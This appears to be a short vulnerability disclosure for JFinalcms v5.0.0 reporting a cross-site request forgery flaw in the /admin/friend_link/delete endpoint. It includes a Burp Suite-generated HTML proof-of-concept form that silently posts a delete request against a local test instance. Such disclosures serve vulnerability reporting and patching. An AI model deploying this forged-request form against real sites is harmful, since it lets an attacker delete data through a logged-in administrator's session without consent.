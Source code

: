 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/delete

![图片](https://github.com/cui2shark/cms/assets/52313275/60287468-36fb-4175-924c-e21f4aa3c0ac)


create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/25af7689-7b95-458f-b9e4-98428cde7459)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/delete" method="POST">
      <input type="hidden" name="ids" value="3" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/5de84c66-8664-4d79-adda-f4660ce43575)

